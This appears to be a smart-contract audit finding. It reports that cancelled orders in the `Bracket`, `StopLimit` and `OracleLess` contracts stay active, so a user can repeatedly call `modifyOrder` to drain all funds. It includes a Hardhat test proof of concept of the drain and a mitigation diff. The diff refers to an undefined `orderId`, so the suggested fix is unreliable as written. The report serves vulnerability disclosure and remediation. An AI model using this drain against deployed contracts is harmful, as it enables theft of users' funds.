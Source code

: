 Bald Honeysuckle Urchin

High

# A malicious user can steal all funds from `Bracket`, `StopLimit` and `OracleLess` contract

### Summary

A vulnerability was discovered in `Bracket::cancelOrder` where orderIds are removed from the `pendingOrderIds`, but it still remains active. Similar cases in `StopLimit` and `OracleLess`, where orders remain active even after cancelling them

### Root Cause

In `Bracket::cancelOrder`, `orderId` is removed from the `pendingOrderIds`, but the order is not deleted. So when the user calls `modifyOrder` with the same `orderId` and `increasePosition` false, he can still pull funds from the contract. Same case for `StopLimit` and `OracleLess`.

### Attack Path

1. User creates an order calling `createOrder`
2. User cancels the order calling `cancelOrder`, user gets all of his funds back from that order
3. User now calls `modifyOrder` with argument `increasePosition` to false and `amountInDelta` such that it passes the condition in line [264](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L264)
User can do this repeatedly and steal all the funds stored in the contract

### Impact

1. All the funds of all users will be lost if a malicious user do this continuously

### PoC

Paste the following code in `test/triggerV2/happyPath.ts`:
```javascript
it("Steal funds", async () => {
        await stealMoney(s.wethWhale, await s.Frank.getAddress(), await s.WETH.getAddress(), s.wethAmount)
        await stealMoney(s.wethWhale, await s.Bracket.getAddress(), await s.WETH.getAddress(), s.wethAmount * 2n)

        const wethBalanceBefore = await s.WETH.balanceOf(await s.Frank.getAddress())
        console.log("Weth balance before: ", wethBalanceBefore)

        const currentPrice = await s.Master.getExchangeRate(await s.WETH.getAddress(), await s.USDC.getAddress())

        await s.WETH.connect(s.Frank).approve(await s.Bracket.getAddress(), s.wethAmount)
        await s.Bracket.connect(s.Frank).createOrder(
            "0x",
            currentPrice,
            currentPrice + BigInt(1e18),
            s.wethAmount,
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            await s.Frank.getAddress(),
            5,
            500,
            500,
            false,
            "0x"
        )

        const filter = s.Bracket.filters.OrderCreated
        const events = await s.Bracket.queryFilter(filter, -1)
        const event = events[0].args
        orderId = (event[0])

        await s.Bracket.connect(s.Frank).cancelOrder(orderId)

        const wethBalanceAfterCancel = await s.WETH.balanceOf(await s.Frank.getAddress())
        console.log("Weth balance After cancel order: ", wethBalanceAfterCancel)

        expect(wethBalanceBefore).to.eq(wethBalanceAfterCancel)

        await s.Bracket.connect(s.Frank).modifyOrder(
            orderId.toString(),
            currentPrice,
            currentPrice + BigInt(1e18),
            s.wethAmount / 2n,
            await s.USDC.getAddress(),
            s.Frank,
            500,
            500,
            false,
            false,
            "0x"
        )

        const wethBalanceAfterModify = await s.WETH.balanceOf(await s.Frank.getAddress())

        console.log("Weth balance After modify order: ", wethBalanceAfterModify)
        // frank now has more funds than he had initially
        expect(wethBalanceAfterModify).to.greaterThan(wethBalanceBefore)
    })
```
run `npm run test`

### Mitigation

delete the order after transferring funds in `_cancelOrder`:
```diff
function _cancelOrder(Order memory order) internal returns (bool) {
        for (uint96 i = 0; i < pendingOrderIds.length; i++) {
            if (pendingOrderIds[i] == order.orderId) {
                //remove from pending array
                pendingOrderIds = ArrayMutation.removeFromArray(
                    i,
                    pendingOrderIds
                );

                //refund tokenIn amountIn to recipient
                order.tokenIn.safeTransfer(order.recipient, order.amountIn);

                //emit event
                emit OrderCancelled(order.orderId);
+               delete orders[orderId];
                return true;
            }
        }
        return false;
    }
```